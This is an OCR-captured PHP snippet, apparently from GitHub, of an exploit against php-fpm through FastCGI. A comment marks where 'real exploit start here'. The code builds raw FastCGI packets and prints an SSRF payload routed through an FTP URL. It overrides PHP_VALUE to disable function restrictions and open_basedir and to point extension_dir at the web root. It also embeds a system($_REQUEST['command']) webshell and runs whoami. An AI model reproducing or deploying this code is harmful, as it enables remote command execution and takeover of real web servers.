 ```php
        } else {
            throw new Exception('Unexpected response type, expecting GET_VALUES_RESULT');
        }
    }

    public function request(array $params, $stdin)
    {
        $response = '';
//        $this->connect();
        $request = $this->buildPacket(self::BEGIN_REQUEST, chr(0) . chr(self::RESPONDER) . chr((int) $this->_keepAlive) . str_repeat(chr(0), 5));
        $paramsRequest = '';
        foreach ($params as $key => $value) {
            $paramsRequest .= $this->buildNvpair($key, $value);
        }
        if ($paramsRequest) {
            $request .= $this->buildPacket(self::PARAMS, $paramsRequest);
        }
        $request .= $this->buildPacket(self::PARAMS, '');
        if ($stdin) {
            $request .= $this->buildPacket(self::STDIN, $stdin);
        }
        $request .= $this->buildPacket(self::STDIN, '');
        echo('?file=ftp://ip:9999/&data='.urlencode($request));

    }
}
?>
<?php
// real exploit start here
//if (!isset($_REQUEST['cmd'])) {
//    die("Check your input\n");
//}
//if (!isset($_REQUEST['filepath'])) {
//    $filepath = __FILE__;
//}else{
//    $filepath = $_REQUEST['filepath'];
//}

$filepath = "/var/www/html/add_api.php";
$req = '/'.basename($filepath);
$uri = $req .'?'.'command=whoami';
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php system(\$_REQUEST['command']); phpinfo(); ?>"; // php payload -- Doesnt do anything
$php_value = "unserialize_callback_func = system\nextension_dir = /var/www/html\ndisable_classes = \ndisable_functions = \nallow_url_include = On\nopen_basedir = /\nauto_prepend_file = "; // extension_dir即为.so文件所在目录
$params = array(
    'GATEWAY_INTERFACE' => 'FastCGI/1.0',
    'REQUEST_METHOD'    => 'POST',
    'SCRIPT_FILENAME'   => $filepath,
    'SCRIPT_NAME'       => $req,
    'QUERY_STRING'      => 'command=whoami',
    'REQUEST_URI'       => $uri,
    'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
    'PHP_VALUE'         => $php_value,
    'SERVER_SOFTWARE'   => '80sec/wofeiwo',
    'REMOTE_ADDR'       => '127.0.0.1',
    'REMOTE_PORT'       => '9001', // 找准服务端口
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
```